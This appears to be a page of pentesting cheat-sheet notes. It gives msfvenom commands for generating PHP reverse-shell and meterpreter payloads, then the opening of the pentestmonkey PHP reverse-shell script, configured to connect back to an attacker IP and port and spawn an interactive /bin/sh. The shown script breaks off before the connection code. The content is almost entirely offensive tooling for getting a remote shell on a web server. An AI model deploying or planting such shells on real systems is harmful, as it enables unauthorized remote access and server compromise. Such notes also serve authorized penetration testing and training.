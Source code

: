 ```
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```

### shell.php

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
// Fork and have the parent process exit
$pid = pcntl_fork();

if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}

if ($pid) {
exit(0);  // Parent exits
}

// Make the current process a session leader
// Will only succeed if we forked
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}

$daemon = 1;
} else {
printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```